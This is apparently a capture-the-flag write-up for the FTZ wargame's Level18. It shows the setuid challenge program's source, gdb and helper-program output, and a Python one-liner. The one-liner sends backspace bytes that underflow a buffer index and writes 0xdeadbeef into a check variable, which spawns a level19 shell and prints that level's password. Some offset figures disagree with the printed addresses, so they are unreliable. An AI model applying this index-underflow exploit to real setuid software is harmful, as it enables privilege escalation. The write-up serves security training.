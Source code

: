 # Level18

## This level's goal
- Pointer move

***

```
[level18@ftz level18]$ ls -l
-rwsr-x---    1 level19  level18      6225 Jan 25  1999 attackme
-rw-r-----    1 root     level18      1272 Jan 25  1999 hint

[level18@ftz level18]$ cat hint

#include <stdio.h>
#include <sys/time.h>
#include <sys/types.h>
#include <unistd.h>
void shellout(void);
int main()
{
  char string[100];
  int check;
  int x = 0;
  int count = 0;
  fd_set fds;
  printf("Enter your command: ");
  fflush(stdout);
  while(1)
    {
      if(count >= 100)
        printf("what are you trying to do?\n");
      if(check == 0xdeadbeef)
        shellout();
      else
        {
          FD_ZERO(&fds);
          FD_SET(STDIN_FILENO,&fds);

          if(select(FD_SETSIZE, &fds, NULL, NULL, NULL) >= 1)
            {
              if(FD_ISSET(fileno(stdin),&fds))
                {
                  read(fileno(stdin),&x,1);
                  switch(x)
                    {
                      case '\r':
                      case '\n':
                        printf("\a");
                        break;
                      case 0x08:
                        count--;
                        printf("\b \b");
                        break;
                      default:
                        string[count] = x;
                        count++;
                        break;
                    }
                }
            }
        }
    }
}

void shellout(void)
{
  setreuid(3099,3099);
  execl("/bin/sh","sh",NULL);
}
```

```
[level18@ftz tmp]$ gdb /home/level18/attackme
(gdb) disass main
0x08048553 <main+3>:    sub    $0x100,%esp

[level18@ftz tmp]$ cat distance.c

#include <stdio.h>
#include <sys/time.h>
#include <sys/types.h>
#include <unistd.h>
void shellout(void);
int main()
{
  char string[100];
  int check;
  int x = 0;
  int count = 0;
  fd_set fds;
  printf(" &string:%p\n &check:%p\n &x:%p\n &count:%p\n &fds:%p\n", string, &check, &x, &count, &fds);
  printf(" fds's size : %d\n", sizeof(fds));
}

[level18@ftz tmp]$ gcc distance.c -o distance
[level18@ftz tmp]$ ./distance
 &string: 0xbfffe8e0
 &check:  0xbfffe8dc
 &x:      0xbfffe8d8
 &count:  0xbfffe8d4
 &fds:    0xbfffe850
 fds's size : 128
```

As above, total size(x100) means 256 bytes.

&string - &check = 0xbfffefe0 - 0xbfffefdc = 0x4 (4bytes)   
&check  - &x     = 0xbfffefdc - 0xbfffefd8 = 0x4 (4bytes)   
&x      - &count = 0xbfffefd8 - 0xbfffefd4 = 0x4 (4bytes)   
&count  - &fds   = 0xbfffefd4 - 0xbfffef50 = 0x84(132bytes)   
dummy1 = 132bytes - 128bytes = 4bytes   
dummy2 = 265 - ( 128 + 4 + 4 + 4 + 100 ) = 16bytes - 4bytes(SFP) = 12bytes

fds(128bytes) + dummy1(4bytes) + count(4bytes) + x(4bytes) + check(4bytes) + string(100bytes) + dummy2(12bytes) + SFP(4bytes) + RET(4bytes)

```
if(FD_ISSET(fileno(stdin),&fds))
{
  read(fileno(stdin),&x,1);
  switch(x)
  {
    case '\r':
    case '\n':
      printf("\a");
      break;
    case 0x08:
    count--;
    printf("\b \b");
    break;
    default:
      string[count] = x;
      count++;
      break;
  }
}
```
The point is that you need to input deadbeef in the check.

In the hint, I understood string[count] will be --count if input is 0x08.

So, I will move string[]'s pointer and then input deafbeef in the check.

```
[level18@ftz level18]$ (python -c 'print "\x08\x08\x08\x08"+"\xef\xbe\xad\xde"'; cat) | ./attackme
Enter your command:
id
uid=3099(level19) gid=3098(level18) groups=3098(level18)

my-pass
Level19 Password is "swimming in pink".
```
